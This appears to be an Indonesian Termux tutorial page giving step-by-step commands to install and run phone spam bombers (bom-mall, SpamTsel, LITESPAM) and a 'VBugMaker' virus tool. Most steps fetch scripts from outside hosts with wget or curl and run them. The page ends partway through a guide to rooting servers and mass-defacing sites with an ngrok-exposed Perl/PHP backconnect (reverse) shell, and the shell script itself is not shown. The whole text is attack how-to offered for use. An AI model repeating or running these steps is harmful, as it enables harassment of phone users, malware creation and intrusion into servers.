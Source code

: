 Spam bom mall
$ pkg install update
$ pkg install upgrade

$ pkg install wget
$ pkg install php
$ wget http://files-store.theprivat.ml/uploads/bom-mall.zip
$ unzip bom-mall.zip
$ cd bom-mall
$ php run.php
(“`Install“` *SpamTsel*)
$ pkg install curl
$ pkg install php
$ curl -s http://files-store.theprivat.ml/uploads/bombtsel.txt > bombtsel.php
$ chmod 777 bombtsel.php
$ php bombtsel.php
3) Tool Spam LITESPAM
$ pkg install php
$ pkg install toilet
$ pkg install sh
$ pkg install git
$ git clone https://github.com/4L13199/LITESPAM
$ cd LITESPAM
$ sh LITESPAM.sh atau
bash LITESPAM.sh
Masukan Nomer nya…

VBugMaker Termux
-apt update && apt upgrade

-apt install git

-apt install python

Donwload file ->http://upfile.mobi/YGwg8gQLuvv

Pindah ke directory

Next

-unzip vbug.zip
-mv vbug $HOME

-cd vbug

-ls

-chmod +x vbug.py
-python2 vbug.py
#Done
Cara Root Server Di Termux Dengan Ngrok Perl/PHP BackConnecter Mass Deface.
1. Install~ Buka Termux

2. Install Ngrok Registrasi Autthokennya.
(http://ngrok.com/download;http://ngrok.com/signup)
$ wget https://bin.equinox.io/c/4VmDzA7iaHb/ngrok-stable-linux-arm.zip
$ unzip ngrok-stable-linux-arm.zip ngrok
$ ./ngrok authtoken JWJDKNxxxxxxxxxx
$ ./ngrok tcp port
:~# Welcome : Plan Free
“0.tcp.ngrok.io:port-ngrok ~> localhost:port”
3. Download Perl/PHP Backconnecter
